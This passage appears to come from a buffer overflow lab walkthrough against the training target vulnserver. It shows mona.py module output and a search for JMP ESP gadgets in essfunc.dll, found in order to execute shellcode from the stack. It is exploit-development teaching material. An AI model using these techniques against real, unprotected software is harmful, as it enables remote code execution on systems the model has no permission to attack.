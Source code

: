 ```
0BADF00D   -----------------------------------------------------------------------------------------------------------------------------------------
0BADF00D    0x62500000 | 0x62508000 | 0x00008000 | False  | False   | False |  False   | True   | -1.0- [essfunc.dll] (C:\WINDOWS\system32\essfunc.dll)
0BADF00D    0x71ab0000 | 0x71ac7000 | 0x00017000 | False  | True    | False |  False   | True   | 5.1.2600.5512 [WS2_32.DLL] (C:\WINDOWS\system32\WS2_32.DLL)
0BADF00D    0x71a50000 | 0x71a8f000 | 0x0003f000 | False  | True    | False |  False   | True   | 5.1.2600.5512 [mswsock.dll] (C:\WINDOWS\system32\mswsock.dll)
0BADF00D    0x77f10000 | 0x77f59000 | 0x00049000 | False  | True    | False |  False   | True   | 5.1.2600.5512 [GDI32.dll] (C:\WINDOWS\system32\GDI32.dll)
0BADF00D    0x00400000 | 0x00407000 | 0x00007000 | False  | False   | False |  False   | False  | -1.0- [vulnserver.exe] (C:\Documents and Settings\Administrator\Desktop\vulnserver.exe)
0BADF00D    0x77dd0000 | 0x77e6b000 | 0x0009b000 | False  | True    | False |  False   | True   | 5.1.2600.5512 [ADVAPI32.dll] (C:\WINDOWS\system32\ADVAPI32.dll)
0BADF00D    0x7c800000 | 0x7c8f6000 | 0x000f6000 | False  | True    | False |  False   | True   | 5.1.2600.5512 [kernel32.dll] (C:\WINDOWS\system32\kernel32.dll)
0BADF00D    0x77c10000 | 0x77c68000 | 0x00058000 | False  | True    | False |  False   | True   | 7.0.2600.5512 [msvcrt.dll] (C:\WINDOWS\system32\msvcrt.dll)
0BADF00D    0x77fe0000 | 0x77ff1000 | 0x00011000 | False  | True    | False |  False   | True   | 5.1.2600.5512 [Secur32.dll] (C:\WINDOWS\system32\Secur32.dll)
0BADF00D    0x7c900000 | 0x7c9af000 | 0x000af000 | False  | True    | False |  False   | True   | 5.1.2600.5512 [ntdll.dll] (C:\WINDOWS\system32\ntdll.dll)
0BADF00D    0x71aa0000 | 0x71aa8000 | 0x00008000 | False  | True    | False |  False   | True   | 5.1.2600.5512 [WS2HELP.dll] (C:\WINDOWS\system32\WS2HELP.dll)
0BADF00D    0x77e70000 | 0x77f02000 | 0x00092000 | False  | True    | False |  False   | True   | 5.1.2600.5512 [RPCRT4.dll] (C:\WINDOWS\system32\RPCRT4.dll)
0BADF00D    0x662b0000 | 0x66308000 | 0x00058000 | False  | True    | False |  False   | True   | 5.1.2600.5512 [hnetcfg.dll] (C:\WINDOWS\system32\hnetcfg.dll)
0BADF00D    0x7e410000 | 0x7e4a1000 | 0x00091000 | False  | True    | False |  False   | True   | 5.1.2600.5512 [USER32.dll] (C:\WINDOWS\system32\USER32.dll)
0BADF00D   -----------------------------------------------------------------------------------------------------------------------------------------
0BADF00D
0BADF00D
0BADF00D   [+] This mona.py action took 0:00:00.266000
```
Most of these files have minimal protections, if any. Ideally we want a JMP ESP instruction which will allow the attacker to execute shellcode from the stack. Using mona, search for these instructions.
```
0BADF00D   [+] Command used:
0BADF00D   !mona find -s "\xFF\xE4" -m essfunc.dll

           ---------- Mona command started on 2021-03-21 10:07:49 (v2.0, rev 613) ----------
0BADF00D   [+] Processing arguments and criteria
0BADF00D       - Pointer access level : *
0BADF00D       - Only querying modules essfunc.dll
0BADF00D   [+] Generating module info table, hang on...
0BADF00D       - Processing modules
0BADF00D       - Done. Let's rock 'n roll.
0BADF00D       - Treating search pattern as bin
0BADF00D   [+] Searching from 0x62500000 to 0x62508000
0BADF00D   [+] Preparing output file 'find.txt'
0BADF00D       - (Re)setting logfile find.txt
0BADF00D   [+] Writing results to find.txt
0BADF00D       - Number of pointers of type '"\xFF\xE4"' : 9
0BADF00D   [+] Results :
625011AF     0x625011af : "\xFF\xE4" |  {PAGE_EXECUTE_READ} [essfunc.dll] ASLR: False, Rebase: False, SafeSEH: False, OS: True, v-1.0- (C:\WINDOWS\system32\essfunc.dll)
625011BB     0x625011bb : "\xFF\xE4" |  {PAGE_EXECUTE_READ} [essfunc.dll] ASLR: False, Rebase: False, SafeSEH: False, OS: True, v-1.0- (C:\WINDOWS\system32\essfunc.dll)
625011C7     0x625011c7 : "\xFF\xE4" |  {PAGE_EXECUTE_READ} [essfunc.dll] ASLR: False, Rebase: False, SafeSEH: False, OS: True, v-1.0- (C:\WINDOWS\system32\essfunc.dll)
```